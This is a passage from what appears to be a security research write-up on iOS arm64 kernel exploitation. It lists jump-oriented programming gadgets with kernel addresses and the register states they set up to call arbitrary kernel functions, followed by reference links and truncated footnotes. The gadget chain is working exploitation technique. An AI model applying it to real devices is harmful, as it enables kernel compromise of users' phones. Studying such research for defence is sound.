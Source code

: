 ```

MOV_X23_X5__BR_X8 (0xfffffff00678bdbc):
		mov x23, x5
		br x8
	x23 = REGION_ARGUMENTS_2_TO_11
	pc = JOP_DISPATCH
	x2 = MOV_X24_X7__BLR_X8
	pc = MOV_X24_X7__BLR_X8

MOV_X24_X7__BLR_X8 (0xfffffff006879350):
		mov x24, x7
		blr x8
	x24 = FUNCTION
	pc = JOP_DISPATCH
	x2 = MOV_X8_X9__BR_X10
	pc = MOV_X8_X9__BR_X10

MOV_X8_X9__BR_X10 (0xfffffff0067163d0):
		mov x8, x9
		br x10
	x8 = GADGET_CALL_FUNCTION_1
	pc = GADGET_POPULATE_2

;; At this point, we have set the following registers:
;; 	x8 = GADGET_CALL_FUNCTION_1
;; 	x19 = ARGUMENT_0
;; 	x20 = ARGUMENT_1
;; 	x21 = ARGUMENT_13
;; 	x22 = ARGUMENT_12
;; 	x23 = REGION_ARGUMENTS_2_TO_11
;;	x24 = FUNCTION
;; 	x25 = REGION_POPULATE_VALUES
;; 	pc = GADGET_POPULATE_2

GADGET_POPULATE_2 (0xfffffff006ce40e4):
		ldp x2, x3, [x23]
		ldp x4, x5, [x23, #0x10]
		ldp x6, x7, [x23, #0x20]
		ldp x9, x10, [x23, #0x30]
		ldp x11, x12, [x23, #0x40]
		stp x22, x21, [sp, #0x20]
		stp x11, x12, [sp, #0x10]
		stp x9, x10, [sp]
		mov x0, x19
		mov x1, x20
		blr x8
	x0 = ARGUMENT_0
	x1 = ARGUMENT_1
	x2 = ARGUMENT_2
	x3 = ARGUMENT_3
	x4 = ARGUMENT_4
	x5 = ARGUMENT_5
	x6 = ARGUMENT_6
	x7 = ARGUMENT_7
	x9 = ARGUMENT_8
	x10 = ARGUMENT_9
	x11 = ARGUMENT_10
	x12 = ARGUMENT_11
	STACK = [
		ARGUMENT_8
		ARGUMENT_9
		ARGUMENT_10
		ARGUMENT_11
```

[call_strategy_1.c]: https://github.com/bazad/memctl/blob/2049ddea16ed13ea92aca8a2576b216da90d8763/src/libmemctl/arm64/jop/call_strategy_1.c
[call_strategy_3.c]: https://github.com/bazad/memctl/blob/2049ddea16ed13ea92aca8a2576b216da90d8763/src/libmemctl/arm64/jop/call_strategy_3.c
[call_strategy_5.c]: https://github.com/bazad/memctl/blob/2049ddea16ed13ea92aca8a2576b216da90d8763/src/libmemctl/arm64/jop/call_strategy_5.c
[iokit_user_client_trap]: https://conference.hitb.org/hitbsecconf2013kul/materials/D2T2%20-%20Stefan%20Esser%20-%20Tales%20from%20iOS%206%20Exploitation%20and%20iOS%207%20Security%20Changes.pdf
[Procedure Call Standard for the ARM 64-bit Architecture]: http://infocenter.arm.com/help/topic/com.arm.doc.ihi0055b/IHI0055B_aapcs64.pdf
[ARM64 Function Calling Conventions]: https://developer.apple.com/library/content/documentation/Xcode/Conceptual/iPhoneOSABIReference/Articles/ARM64FunctionCallingConventions.html
[jump-oriented programming]: https://repository.lib.ncsu.edu/bitstream/handle/1840.4/4135/TR-2010-8.pdf
[ipsw.me]: https://ipsw.me
[joker]: http://newosxbook.com/tools/joker.html
[memctl]: https://github.com/bazad/memctl
[ROPgadget]: https://github.com/JonathanSalwan/ROPgadget
[Capstone]: https://github.com/aquynh/capstone
[^1]: I've gotten in the habit of referring to jump-oriented programs as "JOP programs", despite
[^2]: Of course, if you have a kernel memory read/write primitive, as I'm assuming for this post,
[^3]: I'm not sure why Apple refers to its architecture as arm64 while ARM refers to the 64-bit
[^4]: My ROPgadget patch adds a few lines so that all segments and sections marked with the execute
[^5]: Here we are assuming that all the saved arguments in the structure are 64 bits, which means
[^6]: The first two gadgets might initially seem useful because they load register `x8`, the